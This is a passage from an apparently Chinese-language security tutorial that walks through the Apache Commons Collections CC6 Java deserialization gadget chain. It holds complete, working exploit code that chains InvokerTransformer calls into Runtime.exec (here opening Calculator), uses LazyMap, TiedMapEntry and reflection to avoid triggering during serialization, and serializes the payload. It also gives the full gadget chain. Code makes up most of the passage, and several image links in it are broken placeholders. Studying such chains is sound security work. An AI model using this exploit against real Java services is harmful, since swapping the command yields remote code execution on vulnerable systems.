
紧接着就是hashcode

然后就到tiedMapEntry的hashcode

然后我们看到在get里面调用完transform之后就会把key又put进去。

也就是说反序列化的时候就有这个key了，所以我们需要把它移出来（删掉）即可。
最终的代码为
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 package com.garck3h.ccChain;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantFactory;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.keyvalue.TiedMapEntry;import org.apache.commons.collections.map.LazyMap;import java.io.FileInputStream;import java.io.FileOutputStream;import java.io.ObjectInputStream;import java.io.ObjectOutputStream;import java.lang.reflect.Field;import java.util.HashMap;import java.util.Map;public class cc6demo { public static void main (String[] args) throws Exception { Transformer[] transformers = new Transformer []{ new ConstantTransformer (Runtime.class), new InvokerTransformer ("getMethod" , new Class []{String.class, Class[].class}, new Object []{"getRuntime" , null }), new InvokerTransformer ("invoke" , new Class []{Object.class, Object[].class}, new Object []{null , null }), new InvokerTransformer ("exec" , new Class []{String.class}, new Object []{"open -a Calculator.app" }) }; ChainedTransformer chainedTransformer = new ChainedTransformer (transformers); HashMap<Object, Object> hashMap = new HashMap <>(); Map<Object, Object> lazyMap = LazyMap.decorate(hashMap, new ConstantFactory (1 )); TiedMapEntry tiedMapEntry = new TiedMapEntry (lazyMap, "qwe" ); HashMap<Object, Object> objcc6 = new HashMap <>(); objcc6.put(tiedMapEntry,"asd" ); lazyMap.remove("qwe" ); Class c = LazyMap.class; Field factoryField = null ; factoryField = c.getDeclaredField("factory" ); factoryField.setAccessible(true ); factoryField.set(lazyMap,chainedTransformer); serialize(objcc6); unserialize(); } public static void serialize (Object obj) throws Exception { ObjectOutputStream outputStream = new ObjectOutputStream ( new FileOutputStream ("cc6.bin" )); outputStream.writeObject(obj); outputStream.close(); } public static void unserialize () throws Exception{ ObjectInputStream inputStream = new ObjectInputStream ( new FileInputStream ("cc6.bin" )); Object obj = inputStream.readObject(); } }

完整的调用链
1 2 3 4 5 6 7 8 9 10 11 12 Gadget chain: java.io.ObjectInputStream.readObject() java.util.HashSet.readObject() java.util.HashMap.put() java.util.HashMap.hash() org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode() org.apache.commons.collections.keyvalue.TiedMapEntry.getValue() org.apache.commons.collections.map.LazyMap.get() org.apache.commons.collections.functors.ChainedTransformer.transform() org.apache.commons.collections.functors.InvokerTransformer.transform() java.lang.reflect.Method.invoke() java.lang.Runtime.exec()
总结 1.本文先是以另一种形式实现了cc1，主要是为后面cc6也用到lazyMap做铺垫
2.分析了cc1的修复方式之后，使用TiedMapEntry结合URLDNS链的来实现cc6
3.为了避免在序列化就触发，所以修改了传入map的Transformer，先传入一个没用的，然后再传入一个正常的；通过反射修改lazy传入的为空
4.发现反序列化的时候没能成功执行，分析得知是TiedMapEntry还会把key put进去，移除后即可